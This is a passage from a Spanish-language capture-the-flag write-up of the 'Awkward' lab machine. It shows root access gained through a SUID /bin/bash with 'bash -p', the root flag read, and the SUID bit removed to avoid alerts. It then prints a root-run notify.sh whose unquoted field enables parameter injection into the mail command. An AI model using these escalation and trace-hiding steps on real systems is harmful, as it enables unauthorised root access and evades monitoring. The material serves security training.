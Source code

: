 {% highlight bash %}
bean@awkward:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  7  2022 /bin/bash
{% endhighlight %}

Ahora tomemos la ultima flag

{% highlight bash %}
bean@awkward:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# cat root.txt
071328875a7a7dd6684b564*********
bash-5.1# chmod u-s /bin/bash #Quitarle los privilegios SUID ya que puede generar alertas o problemas en el sistema. Nota que esto no te quitará la shell con privilegios que tienes a menos que la cierres
{% endhighlight %}

<h2>EXTRA</h2>

Buscando en el proyecto npm del sitio principal para saber porqué sus assets estaban mal procesadas vi que para levantar el sitio usaban `vue-cli-service`

{% highlight json %}
{"file":"/var/www/hat-valley.htb/package.json"}
...
  "scripts": {
    "serve": "./node_modules/@vue/cli-service/bin/vue-cli-service.js serve",
    "build": "vue-cli-service build",
    "lint": "vue-cli-service lint",
    "server": "nodemon server/server.js"
  }
...
{% endhighlight %}

Quiero pensar que el app.js estaba mal procesado ya que el servidor que levantas con eso está hecho para desarrollo y no para producción... y bueno.

Este era el script `notify.sh` que ejecutaba root

{% highlight bash %}
root@awkward:~/scripts# cat notify.sh
#!/bin/bash

inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv | while read; do
	change=$(tail -1 /var/www/private/leave_requests.csv)
	name=`echo $change | awk -F, '{print $1}'`
	echo -e "You have a new leave request to review!\n$change" | mail -s "Leave Request: "$name christine
done
{% endhighlight %}

La inyección de parametros ocurre ya que al ponerle la comilla lo que le sigue es tratado como un espacio en blanco y un parametro del comando:
